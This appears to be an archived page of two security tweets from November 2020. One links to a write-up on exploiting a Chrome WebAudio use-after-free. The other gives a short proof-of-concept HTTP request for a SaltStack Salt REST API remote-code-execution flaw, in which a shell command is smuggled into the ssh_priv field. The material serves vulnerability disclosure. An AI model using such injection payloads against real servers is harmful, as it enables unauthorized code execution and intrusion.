 
# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1329091248997625857 _at 2020-11-18 15:57:01_**
<blockquote>
ICYMI @mmolgtm explains how to exploit CVE-2020-6449, a use-after-free (UAF) in the WebAudio module of Chrome, and achieve a sandboxed RCE. Read also how he used #CodeQL to accelerate his code audit https://t.co/k5ddV8Scv3
</blockquote>

* https://github.co/3msMoMy

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1328942729095753731 _at 2020-11-18 06:06:51_**
<blockquote>
CVE-2020-16846
CVE-2020-25592
SaltStack Salt REST API RCE

[PoC]
POST /run HTTP/1.1
Host: [Victim:8888]
...
...

token=12312&amp;client=ssh&amp;tgt=*&amp;fun=a&amp;roster=whip1ash&amp;ssh_priv=aaa|open%20/System/Applications/Calculator.app%3b

https://t.co/jdgIUFSW6x https://t.co/s7xlLDkHDX
</blockquote>

* https://paper.seebug.org/1398/

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EnFaSLqW4AEqKqC.jpg" alt="http://pbs.twimg.com/media/EnFaSLqW4AEqKqC.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---
